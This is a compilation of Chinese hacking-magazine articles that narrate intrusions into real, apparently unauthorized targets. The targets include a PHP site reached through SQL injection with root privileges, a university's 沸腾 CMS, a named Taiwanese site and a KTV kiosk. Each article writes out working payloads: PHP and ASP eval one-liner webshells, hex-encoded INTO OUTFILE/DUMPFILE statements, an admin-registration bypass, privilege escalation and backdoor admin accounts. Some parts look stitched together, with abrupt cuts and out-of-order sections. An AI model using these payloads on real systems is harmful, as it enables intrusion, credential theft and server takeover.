如果访问 config.php 页面会显示如下信息，就代表木马已经写入到 config.php 中了：

```php
'); // UCenter 数据库主机 define('UC_DBUSER', ''); // UCenter 数据库用户名 ...
```

之所以这么显示是因为写入的代码末尾是“?>”，这样才可以解析 PHP 木马的代码，而后面的代码都被当做普通字符来显示了。现在我们用 PHP 一句话木马连接目标网站，之后可以上传大马。

`phpinfo()` 的结果显示是 Linux 操作系统，这个漏洞并不受 GPC 开关影响，同时也影响 Windows 操作系统。在拥有权限之后还不能忘记，如果 config.php 一直这样，主页显示也会出现错误，所以我们要把文件修改正常。把 `define('UC_DBHOST', '\');eval($_POST[sharpwinner]);?>');` 换成 `define('UC_DBHOST', '');` 就可以了。

> 编辑点评：一个存在几率非常小的漏洞，但是不排除存在的可能性，作为技术知识的积累吧。

---

## 一、当注入遇到 root

近日受朋友之托检测一个网站，页面采用 PHP 脚本，并无常规性注入漏洞，后台也不能用万能密码绕过，在 WWWScan 也没给我好脸色的情况下，无奈决定实施旁注。

http://www.ip866.com/reverse.aspx 这个旁注查询网站不错，用 VPN 访问，速度也挺快的。结果不是很理想，仅有 5 个域名，这样踩点工作就可以手工进行了。很快我就发现一个 root 权限的注入点，似乎接下来的工作就不是什么难事了。

## 二、郁闷的突破

通过 Pangolin 的注射信息，得知服务器是 Windows 操作系统，很显然 Web 和 Data 是没有分离的。还是按常规出牌，先探测 Web 路径吧，使用 Pangolin 的文件读取功能读入：`C:\WINDOWS\system32\inetsrv\MetaBase.xml`，提示读取该文件出错。

通过 WWWScan 验证的 Web 信息的确是 IIS 6.0 啊？管理员自己改了 banner 不成？自作聪明的尝试匹配 Apache 的 httpd.conf 文件路径，也是毫无收获。既然是注入点，那么不妨试试 benchmark 函数延时。字段数是有了，手工测试吧：

`http://www.xxx-asia.net/?mod=global&node_id=22 and 1=2 union select 1,1,1,1,1,1,1,1,1,1,1,benchmark(9999999,sha1(0x6861636B696E67)),1,1,1,1,1,1,1,1,1,1,1--`

结果并不理想，没有报错得到 Web 路径，这个方法局限性太强，可惜没有找到 phpMyAdmin，不得已只有进入后台，看看有没有突破口。

很顺利的破解了一个管理员的密码，登录后发现这套 CMS 很少有网站使用。不过我在删除“阶段作业管理”的时候，提示内容似乎暴露了一个非常重要的路径。

我们还是看看能不能直接用上传搞定 webshell。在内容管理的 banner 操作下，有上传图片的操作，我尝试 upload 一个 PHP 脚本，还真成功了，图片属性如此定义：`http://www.xxx-asia.net/admin/cms_file.php?id=106`。利用抓包判断了一下，感觉文件是入库了，那么上传这条路似乎也堵死了。

回到刚才提示的那个路径，tmp 貌似只是一个定义的缓存目录，那么目标机的 Web 路径到底是什么呢？还是玩点小聪明吧，记得很多管理员喜欢把域名作为 Web 目录，尝试了几次，最后居然还真被我蒙对了。

Web 目录：`D:\WebRoot\PHP 5\xxx-asia.net\`，这样 `into outfile` 就有得玩了。记得在手工判断的时候加入单引号，目标并没有返回正常页面，感觉是没有过滤的，Pangolin 对于 GPC 的判断似乎过于依赖版本。

这次我直接使用 Pangolin 的写文件功能试试：`D:\WebRoot\PHP 5\xxx-asia.net\admin\shell.php` 的内容为一句话木马 `<?php eval($_POST[cmd]);?>`，程序提示写入成功。可是打开这个页面后，提示 cmd 是没有定义的常量。当我用 Pangolin 读取功能 load_file 这个文件，显示的却是如下内容：

`1 1 1 1 1 1 1 1 1 1 1 1 <?php eval($_POST[cmd]);?> 1 1 1 1 1 1 1 1 1 1 1 1`

Pangolin 匹配的字段数也写进 shell 了，但这并不会影响 shell 代码，至少 PHP 是从标识符开始识别的。没办法，那就手工试试 NULL 匹配。提交 URL：

`http://www.xxx-asia.net/?mod=global&node_id=22 and 1=2 union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,concat(0x3C3F706870206576616C28245F504F53545B636D645D293B3F3E),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL into outfile 'd:\\Webroot\\php5\\xxx-asia.net\\admin\\2.php'--`

这里 `0x3C3F706870206576616C28245F504F53545B636D645D293B3F3E` 为 `<?php eval($_POST[cmd]);?>` 的十六进制代码。利用 `into outfile` 写入到 `admin/2.php`，这次结果却变成了：

`\N \N \N \N \N \N \N \N \N \N \N <?php eval($_POST[cmd]);?> \N \N \N \N \N \N \N \N \N \N \N`

看来理想和现实是有一定差距的。cmd 这个定义应该用引号包含，那么我们的一句话就应该写成 `<?php eval($_POST['cmd']);?>`。这次用 PHP 一句话后门连接成功了，至少 `phpinfo()` 是可以成功输出了。不过在使用一些常规功能，例如读取目录和探测服务器信息等，也都是提示错误。这个 shell 是继承 IIS 的 guest 权限，的确也没多大能耐。

base64_encode 加密后写入数据库，同时 web 上级目录 PHP 5 下的 tmp 确实定义的是缓存文件目录，必须具备可写条件。这样一来，入侵工作貌似陷入了僵局……

### 三、左右逢源

思考了一下，我想到了 `select into dumpfile` 函数，以前 phpmyadmin 下一次性写 shell 就是用这个指令。在 root 下用命令操作是不受 webshell 权限限制的，不过这里不可写入超过 30k 的文件。

写入一个精简型 webshell 后打开还是出错，提示所有函数未定义。这时孤水绕城提示了我，何不用 include 包含试试？对啊，说干就干。

3.php 是我们的一句话地址了，那么我们这次写一个文件包含它：`<?php @include"3.php";?>`。在一句话的执行 sql 语句下填写好相关参数，相关语句如下：

```sql
select 0x3C3F7068702040696E636C75646522332E706870223B3F3E into DUMPFILE 'D:/WebRoot/PHP 5/xxx-asia.net/admin/4.php';
```

这里同样是转换进制后进行写入操作，我们用一句话木马客户端连接看看，这次可以实现所有功能并不出现错误提示了，如图 7。


这样下来就容易了，我们写入的 shell 都可以如此操作。


我利用上传功能在 tmp 目录下写一个通过 root 权限提权的脚本 mysql.php，然后同样利用 dumpfile 函数输出一个包含该文件的代码。这么操作也是因为 dumpfile 写入文件过大会无法执行。

这次我们需要写入的文件代码为 `<?php @include"../../tmp/mysql.php";?>`，转换后操作语句如下：

```sql
select 0x3C3F7068702040696E636C756465222E2E2F2E2E2F746D702F6D7973716C2E706870223B3F3E into DUMPFILE 'D:/WebRoot/PHP 5/xxx-asia.net/admin/mysql.php';
```

这样这台服务器就完全拿下了，真是跌跌撞撞，最后还是一个 include 帮了大忙，如图 8。

### 四、总结

这次入侵过程貌似走了不少弯路，不知其他读者是否遇到和本文一样的问题，那么你也必须得像我一样，好好学习脚本知识了。似乎不属于我这种 root 权限还如此狼狈获取 shell 的看客，记住你们也是从菜鸟成长出来的。

> 编辑点评：利用 include 上传到缓存的 php 文件来实现方便操作，这个思路还是不错的。

## 渗透某大学
作者：园耗子

本文算是沸腾系统的漏洞集锦了。

### 一、楔子

经过一周的忙忙碌碌，终于可以在星期天好好休息一下了，一觉睡到了十点多，打开电脑开始自己在网上漫无目的的入侵。无意间跳到了 xx 大学，这可是我们省的名校啊，这么出名不知道安全性怎么样，所以开始了这次入侵之旅。

### 二、入侵

在网站主页逛来逛去，发现这所学校有很多分站，并且不是都在同一个服务器商。耐心的查找之后，最后发现一个分站和主站是同一个服务器上的，打开一看我就高兴了，如图 1 所示。


看到 URL 后的文件名就知道是沸腾文章系统了，虽然在最新版中还没有出现什么致命漏洞，但是沸腾这个系统在 0.45 前的旧版本中漏洞是很多的，并且很多免费版本的用户是没有升级和打补丁的，所以导致了在漏洞爆发出多年后依然可以利用。

其中最严重的就是自定义头像上传漏洞，我们先来看看这个漏洞是不是存在。直接跳转 URL 到 `/admin/uploadface.asp`，如图 2 所示。


看来这个上传页面是在的，可是不知道提交页面在不在。大家知道，文件的上传一般都是由上传和提交两个页面组成的，我们试着选择一幅图片，点“上传”后，再看看源码，如图 3 所示。


这个提交页面可能有点问题，因为沸腾这个漏洞在上传图片后会提示成功并且返回地址的，可是这里居然返回的是空白，可见这个页面被人动了手脚，上传漏洞也就不能利用了。

沸腾系统从注入方面来说还算是比较安全的一套系统，整站根本就没有直接的注入漏洞，但是注册用户后却可以构造一个注入点。方法是先在主页记下一个发文用户的用户名，然后访问 `http://URL/textbox.asp?action=modify&newsid=刚才记下的用户名`，利用这个点可以猜解到管理账号和密码，从而进入后台。而以管理账号登录的后台却可以有很大的利用空间来得到一只 WebShell，所以当务之急就是注册一个普通用户来构造这个注入点。

立刻跳转到用户注册页面 `/admin/adduser.asp`，如图 4 所示。


还好这个页面是存在的，注册成功用户后直接登录，却出现了“对不起，管理员未开通您的账号，请稍候！”的提示，如图 5 所示。看来普通用户是需要管理员审核才能登录的。


既然不让注册用户，那数据库总不能不让我下载吧？沸腾在去年的时候还爆出了一个 `down.asp` 文件的下载漏洞，利用这个漏洞可以下载网站中已知的任意文件。如果成功下载 `conn.asp`，就可以查看数据库下载地址，下载数据库后就可以得到管理的账号和密码了。如果无法破解 MD5 加密的管理密码的话，配合沸腾的 COOKIES 欺骗漏洞也是可以直接登录后台的。

试着访问 `/down.asp`，却发现这个文件是不存在的，看来我们所遇到的这个站不存在任意文件下载漏洞。

休息片刻之后，突然想起沸腾 0.45 前的版本中不是有一个注册管理员的漏洞嘛，既然可以注册，那还搞那么多麻烦事做什么。网上流传的注册管理员漏洞一般都是抓包之后修改数据包用 NC 提交，只要将 `purview` 和 `oskey` 两个参数的值修改为 `99999` 和 `super` 就可以注册成为网站的管理员。

但是 NC 提交对于初学者来说比较复杂，需要修改数据包的大小，这里我提供一种比较简单的注册沸腾管理账号的方法，先来看看用户注册页面的源代码，如图 6 所示。


学过 ASP 的人都知道，HIDDEN 变量是不在页面中显示的，但是将它改成 TEXT 就会显示在页面中，那样就可以在本地构造参数来提交，省去了 NC 提交的麻烦。简单修改用户注册页面源代码后，如图 7、图 8 所示。记得 `action=` 后的提交地址要填写完整啊，然后保存到本地在 IE 中进行访问，如图 9 所示。


看到了吧，最下面多出了一行文本框，从左到右依次是 `purview`、`oskey` 和 `reglevel` 的参数，我们只要修改前两项就可以达到我们注册管理员的目的了。最后一项改不改都可以，它是用来限制普通用户的，在普通用户注册时，这个参数是 1，就表示需要审核，改成其它任何数就表示不需要。而我们注册的是管理员，所以无所谓审核不审核。

修改完成后填写注册信息，接着点“确定”，如图 10 所示，我们注册成功了。


虽然系统提示“等待管理员开通账号”，但是只对普通用户有效，我们现在已经可以顺利登录管理后台了，如图 11 所示。


进入后台之后，开始着手拿一只 WebShell。沸腾后台拿 WebShell 是可以修改配置文件 `config.asp` 来写入一句话木马的。可是这个方法不太好，因为修改了配置文件，所以会导致网站运行不正常，非万不得已还是不要用。另外，还可以添加文件的上传类型，但是在 0.45 版中只能添加 PHP 类型，而我们的这个服务器是不支持 PHP 的，所以这个方法不能用。

还可以首先添加一篇有 `<%eval request("#")%>` 语句的文章，然后利用 `/admin/creatasp.asp` 来写一句话木马到 `/lastnewsxp.asp` 文件中。但是我在执行 `/admin/creatasp.asp` 时却发现，这个文件早就被删除了。

如此多的方法都无法拿 WebShell，看来得研究新路子了。在不修改配置文件的情况下继续拿 WebShell，我这次利用添加文章时的调用远程图片功能。沸腾从 0.45 开始，在添加文章的时候就有了调用远程图片的功能。因为是调用远程主机中的文件，所以没有对被调用的文件作过滤，可以调用任何文件。

记得沸腾漏洞最疯狂的 2006 年，有人曾提出将远程调用的地址修改为自己的 ASP 马地址，就可以得到一只 WebShell，因为沸腾会将这个文件以原来的格式存在自己的 `/uploadfile` 目录下。但是这位仁兄只给出了方法，却没有告诉人们具体的步骤，所以导致菜菜们直接在图片调用地址中写下自己的大马或者小马，虽然是在系统中保存了下来，事实上却只是将大马或小马的登录界面下载了下来，而一句话木马却只是一片空白，都无法正常执行。


其实沸腾的调用远程图片功能只是截取页面显示的内容，举个很简单的例子，当你在网站上看到一幅图片后，你可以将它完整的保存在本地。但是如果是一个 ASP 文件的话，你能保存下来的只有 ASP 语言中输出的内容，所以直接保存远程的 ASP 马是不可能的。


要想保存也可以，但是需要简单的变通一下。将以下 ASP 代码保存到远程空间上：

```asp
<%
    response.write "<% execute request("""
    response.write "value"") "
    response.write "%"&">"
%>
```


我们访问这个文件的时候看到了什么？稍懂 ASP 的人都知道，`response.write` 表示在页面上输出后面的内容，所以以上代码以 ASP 执行后，就是 `<% execute request("value") %>`，如图 12 所示。而借助远程调用图片功能，保存与 URL 中文件同后缀的文件到 `/uploadfile` 下，就可以得到一只 WebShell。

根据以上方法添加一篇文章，在“首页图片”栏中写入我们修改过的 ASP 文件，然后选中下面“保存图片”项中的“是”，如图 13 所示。添加完成后再返回编辑，就可以看到我们马的名字了，如图 14 所示，并且是可以正常执行的，如图 15 所示。

传大马上去之后发现系统的 `CMD.EXE` 被禁止调用，所以自己上传本地的 `CMD.EXE` 到站点目录下。但是传上去发现大小是 0KB，如图 16 所示。看来是 2K3 将文件上传大小控制在了 200K 以内，所以我们直接上传是不会成功的。这个时候我想到了海洋有个下载远程文件的功能，所以用它来下载我空间上的 `cmd.exe`，结果成功了，如图 17 所示。

立刻上传好 `churrasco.exe`（曾经的 2K3 0day）进行提权，居然成功了，如图 18 所示。

### 三、总结

回首此次入侵，并没有什么值得夸耀的地方，唯一可能会帮到大家的就是，我自始至终的坚持与入侵进入死角后的思路变通。

> 编辑点评:
> 文章提到的远程下载 asp 文件的方法，我推测将 asp 放到 linux 之类不支持 asp 脚本的空间上也是一样可以的。


## Pesec Game 黑客游戏通关手记
作者：孤水绕城

从本文你可以了解到很多的加密解密方法。

暑假过得很无聊，慢慢地也失去了上进心，原本的学习计划也没能照原样进行。眼看暑假很快就要结束了，想想就头痛，没办法只能写点东西聊以度日了，献给我们可爱的菜鸟，牛牛莫鄙视。

一日在网上闲逛，突然看到网上有一个黑客通关游戏很火，很多牛牛们都在玩，而且通关名单上还有偶垂涎很久了的牛牛们。心想如果偶不才也通关了，那不也就成了牛牛吗？没啥好犹豫的，把我的死党 dream an end 和 yizhigu 拉来一起玩。经过几个小时的浴血奋战，最终偶们全都榜上有名了，下面是通关的过程，菜菜们要瞪大眼睛了哦。

### ## 第一关：小试加密解密

有的同学在第一步就卡住了，打开游戏的第一关居然是如图 1 的提示。其实第一关很常规，玩过黑客游戏的同学应该都很熟悉了，只要禁用“活动脚本”，它的本来面目就现身了，如图 2。


修改 IE 的“Internet 选项”是通用的方法，这里我给大家介绍一款专用的网站分析工具，平时偶在分析挂马网站时经常使用，现在拿出来和大家分享，如图 3（编辑：此工具可以在 hididi.net 下载，作者是海阳顶端 asp 木马的作者之一）。


此工具功能甚是强大，希望大家没事能够多研究一下。在这里我们只要选中图 3 中的“禁用脚本”选项就能达到和 IE 的禁用“活动脚本”同样的效果了。在网页源代码查看分析器“网页地址”处输入第一关的 URL，然后点击“查看”按钮，接着再从“分析器”切换到“浏览器”状态，我们就能看到第一关的提示信息了，如图 4。


提示信息如下：

```text
1: vau688Pmwb249szhyr7X6brPxvDAtKOsvs3Kx7Xatv652MHLISjPwrnYtdjWtzpodG2689e6LNfcs6S2yDExzrsplQ==
//将后面两个提示组合起来，就是第二关了(下关地址: htm后缀，总长度 11 位)
提示 2: \x32\x2E\x68\x74\x6D //这个是十六进制加密的，还原是：2.htm
提示 3: 11D46A416028A53D36C904762351E1CB //这个是 md5 加密的 g2.htm
```

上面我们看到了三个加密字符串，这就需要我们依次将其解密。我们先来将 `vau688Pmwb...` 解密，因为在加密字符串后面看到了 `==`，所以偶立马想到了 Base64 加密。为了验证一下，填到解密工具里马上得到了结果，如图 5。


提示 2 则是一个十六进制加密后的结果，解密方法也很简单，我们可以用手工的方法，也可以用工具来解密。为了照顾菜鸟，我用光芒果的 js 加密/解密工具，输入要解密的字符，点击“16 进制解密”就得到了正确结果，如图 6。


提示 3 更简单，是一个 32 位的 MD5 加密值，直接到 www.cmd5.com 解密就能得到正确的结果，如图 7。接下来将得到的结果分析一下，不用多说了吧，只要你智商不低于 100 很容易得到第二关的地址：`http://www.pcsec.org/game/2.htmg2.htm`。


### ## 第二关：加密解密续

输入第一关得到的 URL 来到第二关，如图 8，第二关考查的也是加密解密方面的知识，不过相对第一关就有些难度了。估计会困住不少同学，下面来跟我解密，看看它的庐山真面目。

第二关总共有两个提示，提示 2 告诉我们下一关后缀为 htm，并且总长度为 9。再来看看提示 1，最上面的是一个加密函数，它告诉了我们程序的加密方式。我简单的说明一下，这个函数是把给定的字符串每一位字符用 ASP 的 `asc()` 函数得到它的 ASCII 值，然后再将它们用“，”连接起来，这样就得到加密结果。

解密也很简单，只要我们将对应的 ASCII 值还原就 ok 了，需要用到 ASP 的 `chr()` 函数，解密函数如下：

```asp
Function ChrData(Data)
  TheArray = Split(Data, ",", -1, 1)  'Split()函数将“Data”加密字符串“,”分开
  For each OldData in TheArray
    NewData = NewData & chr(OldData)  '将 ascii 码值还原为原来的字符
  Next
  ChrData = NewData
End function
```

最终的解密脚本如图 9，我们将这些代码保存为 `result.asp` 文件，在 ASP 环境下访问 `result.asp` 马上就能得到结果，如图 10。

估计很多菜菜们会看晕，不知道是什么东东。其实很简单，这就是摩尔斯电码，因为以前偶然间看到过，而且我还记得摩尔斯纪念日 Google 首页就出现过摩尔斯电码，不知道大家有没有注意过。

说说如何解密吧，我们可以将图 10 中得到的结果和摩尔斯电码表手工比对，不过工程浩大，如果比对完的话估计会有人吐血。这里推荐大家一个网站 www.cha88.com，提供很多破解的功能，就是网速有点慢。通过查询，结果如图 11，得到一个密码散列“SU1E953B4095713D74661DD26D7F2F3A96”。开始以为是 MD5，发现是 34 位！后来经 yizhigu 大哥提醒，将 SU 后面的当作 MD5 值破解，最后得到了第三关地址，如图 12。

### ## 第三关：解密技术综合考查

前面两关走的不是很顺利，估计也会有很多同学马失前蹄，与第三关失之交臂。不过能挺到第三关，说明同学们还是很棒的，接下来我们继续通关之旅。

输入第三关 URL 来到了第三关首页，如图 13，提示 1 给出了众多的经典加密方法加密之后的字符串，提示 2 是经过格式化之后的 16 进制 hex 值，玩过免杀的同学肯定会很快联想到。

我们先来看看提示 2 给出的到底是什么东东。先将这些 hex 码粘贴到 WinHex 里面试试，得到的结果如图 14，最开始的文件头显示的是“Rar！”，明眼人一看就知道是什么东东了。我们将它保存为 RAR 后缀的文件，运行该文件（要保证你的电脑已经安装了 WinRAR），居然弹出框来跟偶要密码，如图 15。

密码还不知道，需要破解提示 1 的信息。解密工具我选择的是 cain，大家熟知的是 cain 的嗅探功能，其实它的破解功能也是无与伦比的，下面为大家作简要说明。

第一个加密字串“hvfkN/qlp/zhXR3cuerq6jd2Z7g=”先经过 SHA-1，再经过 Base64 加密，我们就用 cain 来破解它。首先要解密 Base64，在 cain 窗口下通过“Alt+6”快捷键调出 Base64 口令解码工具，将加密字串填到如图 16 的位置上，得到解密后的结果。这里我们需要的是最后一个“解码的口令（HEX）”，值为“86f7e437faa5a7fce15d1ddcb9eaeaea377667b8”。

接着我们在 cain 工具栏上选择“破解器”（我用的是岁月联盟的中文版本），在破解器左边框上选择“SHA-1 密文”，然后在右边框右击鼠标，如图 17、18。将“86f7e437faa5a7fce15d1ddcb9eaeaea377667b8”...

## 第四关：Web 攻防技术

输入 URL 来到第四关，是个看图题，考查的是 Google Hacking 的技巧，我想对于身经百战的同学们不会陌生吧。

我构造的关键字为：“site:pcsec.org inurl:upload + "The Unexpected"”，搜索结果如图 23。

当时卡在这里好长时间，最后经过 dream 提醒，得知了提示地址为 “SQL-Injection.txt”，访问后我们得到了提示信息，如图 24。

这里给出了三个提示，不过最引人注意的是提示 3，它告诉我们不要下载数据库。游戏作者为什么给出这么一个提示呢？“聪明人”肯定不会被这句话吓倒。

我毅然地选择了下载数据库这条道路，然后成功地下载数据库，接着撇下提示 1 和提示 2，在数据库中赫然发现了下一关地址。当高高兴兴地来到下一关，结果弄了很长时间一直提示 session 错误。

“7b8” 填入到图 18 中的输入处，点击“确定”就可以对其进行破解了。这里我们选择暴力破解，破解方法如图 19，很快就得到了结果，是字符 “a”。

通过同样的方法，破解了除了最后一个 DES 加密外，其它那几个密码均为小写的 “a”，我们也可以用 Cain 的密文计算器验证下，如图 20。

“DES (Unix)” 这个加密方法用 Cain 没办法破解出来，测试了几个也不对，不过用 “/b25LvtnflSjc” 为关键字在 Google 搜索了下，还真得到了结果，是个 “A”，看来运气不错 (后悔当时没买彩票)。

到这里所有的密文都破解完了，最终的密码为 “aaaaaA”。将 RAR 文件解压后在 pass.txt 文件中得到了下一关地址，如图 21。来到下一关，结果弄了很长时间一直提示 session 错误。

到这里估计你就会发现自己掉入陷阱里去了，这就是游戏作者的高明之处，很是敬佩，没有免费的午餐，我们还是一步一步地来。

提示 1 很简单，我们需要找到存在注入点的地址。通过手工测试，很容易找到了提示 1 的地址 “t.asp?sql=3&id=3”。

继续分析提示 2，我们要根据提示 2 给出的源代码一点一点地分析，这里要求你有基本的代码阅读能力。

首先设置 cookies，先用浏览器提交 “javascript:alert(document.cookie="饼干=好吃你就多吃点");”，然后访问 “t.asp?sql=3&id=3 Union select data from Pass”，得到了下一关地址 “goto666six.asp”，如图 25。

注意 “Union” 为大写，因为提示 2 的代码做了限制。Union 的 “Pass” 表和 “data” 字段可以在数据库中得知。

最关键的地方到了，不能关掉这个页面，要在在这个页面输入下一关的地址。因为 Union 成功后会给我们设置一个 session 值，否则到了下一关会一直提示 session 错误。

## 第七关：Web 知识深度考查

由于官方说第五关存在问题，所以在通过第四关后直接跳到了第六关的显示页面，并将第七关地址显示出来了。我们输入地址：“http://www.pcsec.org/game/goto666six.asp” 就来到第七关，如图 26。

```asp
<%
sql=request("sql")
if sql = 3 and id <> "" then
    dim conn, rs, sql, connstr
    db="IDE_ID.mdb"
    dbfile=server.MapPath(db)
    set conn = server.createobject("adodb.connection")
    Source="Provider=Microsoft.Jet.OLEDB.4.0; Data Source=" & dbfile
    conn.Open Source
    set rs=Server.Createobject("adodb.recordset")
    sql="Select url from ide_id where id="&id
    rs.open sql, conn, 1, 1
    if rs.recordcount>0 then
        response.Write(rs("url"))
    else
        response.Write("没有")
    end if
end if
%>
提示3：
请各位自觉游戏，请勿下载数据库地址。
```

页面提示我们要输入经典万能密码，因为是 Access 的数据库，最终选择了 “'or'='” 作为万能密码，可结果很令人郁闷，出现了如图 27 的错误提示。提示我们浏览器类型不对，需要用 “TBr 5.12” 浏览器访问，Google 了下也没有这个浏览器啊。

到这里很长一段时间没有明白过来，最后结合以前学过的脚本知识，知道了程序是通过“User-Agent”这个 HTTP 报头来获得浏览器版本的，这样我们只要修改这个“User-Agent”为“TBr 5.12”就能欺骗网站程序了。

明白问题的所在就好办了，Google 了一下，找到了 IE 修改“User-Agent”的方法，通过注册表修改一个键值就 OK 了。

修改方法很简单，在“运行”中输入“regedit”打开注册表编辑器，在“HKEY_LOCAL_MACHINE”主键下搜索“User Agent”，最后定位到“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\User Agent”。

在右边栏的（默认）字符串项处单击，修改字符串值如图 28，到这里重启浏览器就完成修改了（其它浏览器的修改方法大家 Google 一下）。

不过问题又出现了，我们第四关精心构造的 session 值消失了，这就要再回到第四关，直接输入“http://www.pcsec.org/game/t.asp?sql=3&id=3 Union select data from Pass”就可以了。

然后再输入 http://www.pcsec.org/game/goto666six.asp，在图 26 的界面处将用户名和密码都输入“'or'='1'”，最后终于看到了梦寐以求的过关提示界面，如图 29，留下大名走人咯。

> 注：本文只针对黑客技术进行讨论，没有其它恶意，牛牛们莫鄙视，并附赠本人做的教程一份。
> [作者过关的动画教程已收录在本期光盘]

**编辑点评：**
这个游戏是我在北京的同事 NP 做的，我离开北京后也玩了一下这个游戏。游戏时我也是直接下载了数据库，在出现了 session 错误就没有继续玩了。最后一关的方法除了修改注册表，还可以用 minibrowser.exe 来过关，这样比较方便一点。

## 利用 MySQL 内置变量进行注入
b4che10r

文章写的是 MySQL 内置变量在注入上的应用。每一期的“黑手”都会有 MySQL 数据库注入的实战文章，不过个人感觉文章中用 MySQL 内置的变量和内置函数在搜集信息方面的教程还是比较少。

在 MySQL 注入中运用到 MySQL 内置变量大致有：

- tmpdir: 保存临时文件和临时表的目录
- basedir: MySQL 安装目录
- datadir: 数据库存储的目录
- version_compile_os: 判断数据库服务器的系统类型
- group_concat_max_len: 允许 group_concat() 函数结果的最大长度，默认是 1024
- max_user_connections: MySQL 账户允许的最大同时连接数，0 表示没有限制
- log_error: 错误日志的位置

内置函数大致有：version()、user()、database()、load_file()、into outfile、password()、group_concat()、concat_ws()。

这里提一下 user()、current_user()、system_user()，这三个函数表示的含义是一样的，不要被函数名所迷惑。内置函数大家都应该知道，其中关于 group_concat() 的应用在一期“黑手”中单独有一篇文章介绍，不熟悉的可以翻下以前的“黑手”。

对于 password() 可能大家不是很熟悉，至少我在看“黑手”的时候没有看到有文章中提到 password() 的使用。我从网上找个 PHP+MySQL 的注入点，比如：http://wg2009.pts.org.tw/detailc.php?id=371，就用这个来做实验。

关于如何判断是否是注入、判断字段我就不说了，如果不清楚的话应该去查找下相关资料，然后去面壁一分钟。

我们提交：“http://wg2009.pts.org.tw/detailc.php?id=371 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,”，返回的索引字段如图 1 所示。

现在我们就可以使用内置函数来搜集相关信息，提交：“http://wg2009.pts.org.tw/detailc.php?id=371 and 1=2 union select 1,version(),3,user(),database(),6,7,8,9,10,11,12,13,”，结果返回如图 2 所示。

MySQL 的版本是 5.x，这个版本的 MySQL 在注入的时候比较简单，因为系统库 information_schema 存在，该系统库中的 schemata、tables、columns、statistics 表在注入中会发挥很大的作用。

看了很多 MySQL 注入的文章，利用 statistics 和 key_column_usage 表进行注入的不是很多，有些时候 schemata、tables、columns 表可能被管理员删除或者禁用了，这个时候 statistics 和 key_column_usage 就发挥作用了。

继续我们的相关信息搜集，先看 user() 的返回结果，可以知道数据库服务器和 Web 服务器是在一起的，我们利用 version_compile_os 变量判断数据库服务器的系统类型，也就是 Web 服务器的系统类型。

为了节省版面，我把其它的函数和变量一起提交。由于默认编码 (latin1) 引起的问题，我们全部使用 unhex(hex()) 进行编码。

提交：“http://wg2009.pts.org.tw/detailc.php?id=371 and 1=2 union select 1,unhex(hex(@@version_compile_os)), 3,unhex(hex(@@datadir)),unhex(hex(concat_ws(char(32,58, 32),password(0x70747355736572),@@group_concat_max_len))),6,7,8,9,10,11,12,13,”，结果返回如图 3 所示。

Password() 的使用方法：password('username')。如果直接使用 password('ptsUser') 不行，我们可以把 ptsUser 进行 16 进制编码。

从信息中得知服务器是 redhat-linux-gnu 的，数据库的存储目录是 /var/lib/mysql/，group_concat() 函数返回结果最大的长度是 1024，数据库用户的密码是 7f9e7df830a23551。大家不要以为这是 MD5 加密的，它是 MySQL 323 的老加密方式，新的加密方式是 40 位的 MySQL SHA1。

我们可以破解 MySQL 账户的 hash，破解的密码也是 ptsUser，这里就不截图了。如果有 load_file() 的权限的话，我们就没有必要破解 hash 了。其它变量的使用我就不演示了，方法都是一样的。关于 group_concat() 函数的使用我就不说了，不熟悉的可以参考以前的“黑手”。

大家有时在注入 MySQL 数据库时，可能版本是 5.x，却不能使用 information_schema 系统库。为了避免判断错误，我们可以先判断下 information_schema 系统库是否可用，提交：“http://wg2009.

然是 Windows 的经典游戏“扫雷”，如图 3。我下意识以为是作者编了个小游戏放进去，但再看一眼，这个界面不就是 Windows 的么？

朋友们看到这里一定和我一样想看看还能从中继续挖掘出什么吧。首先来理一下思路：我们的目的是获得这台机子最终的 administrator 权限，要想这么做我们就得能打开 CMD。

常见打开 CMD 的方法有以下几种：

- 一种是依次从桌面选择“开始”--“运行”，再输入“CMD”；
- 另一种是到系统盘符下的 `\WINDOWS\system32` 文件夹中去寻找；
- 还有一种就是在任意文件夹内新建一个后缀名为 .bat 的批处理文件，文件的内容是 cmd，通过双击该文件即可打开 CMD。

这时可能会有朋友提出疑问，触屏的电脑你怎么输入指令呢？我最初想的是复制粘贴法，就是通过打开电脑中本身就有的记事本文件，然后选择好你要的字母，再单击菜单栏中的编辑，选择“复制”、“粘贴”来回的组合出你所要的命令，然后另存为批处理文件执行即可。

但是这一切的一切都必须要求我能进入到它的磁盘内才可以实施，因此我们需要再考虑如何进入它的磁盘。

可能有经验的读者们这个时候已经知道该怎么做了，这里为了照顾新来的朋友们，我就再详细的讲一下。

首先点击“帮助”菜单，如图 4，然后点击目录选项随后出现如图 5 的界面。接着我们单击“Internet 选项”，在出现的选项卡中，找到 Internet 临时文件夹下的“设置”选项并进入，如图 6。

之后单击“查看文件”，出现如图 7 的界面，这样我们就来到了它的磁盘下。其实再按照前面的“复制”、“粘贴”法已经可以取得终极权限了，但是我没有立刻这么做，而是先在他的电脑里面逛了逛。

当我一路巡查之后，在桌面文件夹下发现了“工作软件”目录。进入后发现了如图 8 的一系列好东西，其中对于我们来说，“rbutton”和“屏幕键盘”这两个软件是最为有用的，如图 9，这样一来我们就不用那么麻烦的“复制”、“粘贴”了。

首先运行“rbutton”，这个是可以把单击屏幕效果由单击左键变为单击右键，这样我们就可以直接新建文件而不用再到处去找个文本文件修改了。

接着运行屏幕键盘，这个相信大家都会用的吧，我就不多做介绍了。因为桌面我进不去，所以只能用剩下的方法了，我选择的是新建一个 .bat 文件。

好了，我们终于打开 KTV 点歌机的终端了，通过屏幕键盘我们进行以下操作（以下的命令都不包含双引号）：

1. 使用命令：`net user` 来查看一下这台主机的用户都有哪些；
2. 接着继续执行添加用户的命令：`net user goshawk /add`，添加了一个名为 goshawk，密码为空的用户，如图 9。
3. 接着对这个用户授权，命令为：`net localgroup administrators goshawk /add`，如图 10。

好了，到这里本次入侵可以说是告一段落了，但是我在这台电脑中继续研究时发现，图 8 中的 AVPro 文件其实就是这个点歌系统的快捷方式，在启动文件夹下也有一个这个文件的快捷方式，所以每次一开机我们便进入这个系统内了。

